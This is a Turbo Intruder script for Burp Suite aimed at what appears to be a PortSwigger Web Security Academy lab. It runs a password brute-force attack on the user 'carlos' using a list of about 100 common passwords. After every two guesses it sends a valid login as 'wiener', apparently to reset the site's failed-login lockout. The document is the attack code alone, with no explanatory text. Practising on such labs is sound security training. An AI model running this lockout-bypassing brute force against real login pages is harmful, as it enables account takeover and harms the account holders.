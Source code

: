 def queueRequests(target, _):
    engine = RequestEngine(
        endpoint="https://0a0e00210386a90b81b849f700aa0039.web-security-academy.net:443",
        concurrentConnections=1,
        requestsPerConnection=1,
        engine=Engine.BURP 
    )

    pass_list = ["123456", "password", "12345678", "qwerty", "123456789", "12345", "1234", "111111", "1234567", "dragon", "123123", "baseball", "abc123", "football", "monkey", "letmein", "shadow", "master", "666666", "qwertyuiop", "123321", "mustang", "1234567890", "michael", "654321", "superman", "1qaz2wsx", "7777777", "121212", "000000", "qazwsx", "123qwe", "killer", "trustno1", "jordan", "jennifer", "zxcvbnm", "asdfgh", "hunter", "buster", "soccer", "harley", "batman", "andrew", "tigger", "sunshine", "iloveyou", "2000", "charlie", "robert", "thomas", "hockey", "ranger", "daniel", "starwars", "klaster", "112233", "george", "computer", "michelle", "jessica", "pepper", "1111", "zxcvbn", "555555", "11111111", "131313", "freedom", "777777", "pass", "maggie", "159753", "aaaaaa", "ginger", "princess", "joshua", "cheese", "amanda", "summer", "love", "ashley", "nicole", "chelsea", "biteme", "matthew", "access", "yankees", "987654321", "dallas", "austin", "thunder", "taylor", "matrix", "mobilemail", "mom", "monitor", "monitoring", "montana", "moon", "moscow"]
    
    attack_request = """POST /login HTTP/2
Host: 0a0e00210386a90b81b849f700aa0039.web-security-academy.net
Content-Length: 29

username=carlos&password=%s"""

    valid_request = """POST /login HTTP/2
Host: 0a0e00210386a90b81b849f700aa0039.web-security-academy.net
Content-Length: 30

username=wiener&password=peter"""

    for i in range(0, len(pass_list), 2):
        try:
            engine.queue(attack_request % pass_list[i])
            
            if i + 1 < len(pass_list):
                engine.queue(attack_request % pass_list[i + 1])

            engine.queue(valid_request)

        except IndexError:
            pass

def handleResponse(req, _):
    table.add(req)
